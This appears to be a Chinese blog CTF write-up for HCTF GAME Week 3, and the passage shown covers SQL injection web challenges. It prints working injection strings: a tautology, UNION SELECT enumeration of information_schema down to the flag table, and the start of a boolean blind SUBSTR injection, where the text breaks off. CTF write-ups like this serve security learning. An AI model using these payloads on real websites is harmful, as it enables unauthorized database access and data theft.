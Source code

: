 ```yaml
---
layout: post
title: HCTF GAME Week 3 解题报告
category: CTF
tags: [ CTF, WriteUp, HCTF ]
comments: true
---
```


这次比赛十分怠惰，基本上都在外婆家里看动漫，结果做题特别少。

只做了两个大类，不过还有个400的渗透试着做过但是没搞出来，加密有两题是比赛结束后再去做做出来的。

这里只放Web和Crypto，还有个写了一半的Pentest，在HTML注释里→\_→。

是时候干正事儿了。

我这次的WP，因为很多都是现查的，所以应该有很多的概念错误，还请指出。



## Web

日常先做Web，本周为SQL注入专场，几道都是比较基础的知识。

### 从0开始之SQLI之0

http://45.32.25.65/nweb/sqli1/?user=user1

#### 解题报告

一开始用最基础的`'OR 1=1#`注入发现没有flag，不过有一行maybe flag is in another space，看起来就是要拿表名。

当然，首先要尝试一下`UNION SELECT`。

于是注入`'UNION SELECT 1,schema_name FROM information_schema.schemata#`，拿到库名，hctfsqli1和test，稍作测试发现hctfsqli1为当前库，以及发现test没用，不提了。

于是接着注入`'UNION SELECT 1,table_name FROM information_schema.tables WHERE table_schema='hctfsqli1'#`，拿到两个表名，hhhhctf和users。

再注入`'UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name='hhhhctf'#`拿到列名flag。

直接查询`'UNION SELECT 1,flag FROM hhhhctf#`就拿到flag了，`hctf{f1rst_sql1_is_34sy}`。

### 从0开始之SQLI之1

http://45.32.25.65/nweb/sqli2/?id=1

#### 解题报告

按照第一题的套路试了试注入，试出来id参数没有引号包围。除此之外好像如果没跑出个username就出现it must return username报错，应该是基于报错的注入。（然后学长指出我这是瞎盲注

`1 AND SUBSTR((SELECT schema_name FROM information_schema.schemata LIMIT 1,1),1,1)='h'`
